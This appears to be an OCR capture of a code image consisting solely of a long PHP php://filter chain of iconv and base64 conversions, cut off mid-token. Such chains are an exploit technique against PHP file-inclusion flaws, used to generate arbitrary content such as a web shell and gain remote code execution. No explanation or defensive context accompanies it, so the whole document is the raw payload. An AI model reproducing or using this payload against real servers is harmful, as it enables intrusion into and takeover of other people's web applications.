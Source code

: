 ```sh
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.iconv.ISO-IR-103.850|convert.iconv.PT154.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP367.UTF-16|convert.iconv.CSIBM901.SHIFT_JISX0213|convert.iconv.UHC.CP1361|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.DEC.UTF-16|convert.iconv.ISO8859-9.ISO_6937-2|convert.iconv.UTF16.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UCS2.UTF8|convert.iconv.8859_3.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.865.UTF16|convert.iconv.CP901.ISO6937|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.IBM869.UTF16|convert.iconv.L3.CSISO90|convert.iconv.R9.ISO6937|convert.iconv.OSF00010100.UHC|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500-1983.UCS-2BE|convert.iconv.MIK.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1162.UTF32|convert.iconv.L4.T.61|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.iconv.CP1282.ISO-IR-90|convert.iconv.CSA_T500.L4|convert.iconv.ISO_8859-2.ISO-IR-103|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16LE|convert.iconv.UTF8.CSISO2022KR|convert.iconv.UTF16.EUCTW|convert.iconv.ISO-8859-14.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L6.UNICODE|convert.ic
```